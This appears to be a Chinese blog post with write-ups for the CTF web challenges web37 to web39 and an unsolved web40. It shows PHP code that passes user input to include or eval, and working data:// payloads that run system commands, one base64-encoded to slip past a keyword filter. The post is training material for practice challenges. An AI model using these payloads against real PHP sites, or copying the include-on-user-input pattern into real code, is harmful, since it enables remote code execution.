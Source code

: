 ```yaml
---
layout: post
title:  "[命令执行]web37-39"
date:   2021-01-10 23:00:00 +0800
categories: CTF
---
```


### Web37

```php
error_reporting(0);
if(isset($_GET['c'])){
  $c = $_GET['c'];
  if(!preg_match("/flag/i", $c)){
    include($c);
    echo $flag;

  }
    
}else{
  highlight_file(__FILE__);
}
```

与前面的相比，这次直接换掉了`eval()`函数，变成了`include`

用伪协议写入数据流，读取flag

[参考文章](https://segmentfault.com/a/1190000018991087)

```
payload:?c=data://text/plain,<?php system("cat fla*")?>
```

### Web38

```php
error_reporting(0);
if(isset($_GET['c'])){
  $c = $_GET['c'];
  if(!preg_match("/flag|php|file/i", $c)){
    include($c);
    echo $flag;

  }
    
}else{
  highlight_file(__FILE__);
}
```

ban掉了`file`和`php`，直接用base64绕过去就行

```
payload:?c=data://text/plain;base64,PD9waHAgc3lzdGVtKCJjYXQgZmxhKiIpPz4=
```

这里应该使用php的`base64_encode($str)`函数加密一下字符串，否则不匹配

### Web39

```php
error_reporting(0);
if(isset($_GET['c'])){
  $c = $_GET['c'];
  if(!preg_match("/flag/i", $c)){
    include($c.".php");
  }
    
}else{
  highlight_file(__FILE__);
}
```

增加了后缀的限制，回在最后传入的时候添加`.php`后缀，限制了传入，但是并不严谨，因为前面的语句已经执行完毕。

`payload:?c=data://text/plain,<?php system("cat fla*")?>`

### Web40

```php
if(isset($_GET['c'])){
  $c = $_GET['c'];
  if(!preg_match("/[0-9]|\~|\`|\@|\#|\\$|\%|\^|\&|\*|\（|\）|\-|\=|\+|\{|\[|\]|\}|\:|\'|\"|\,|\<|\.|\>|\/|\?|\\\\/i", $c)){
    eval($c);
  }
    
}else{
  highlight_file(__FILE__);
}
```

啊不行了，明天看师傅们的wp吧，鸽了

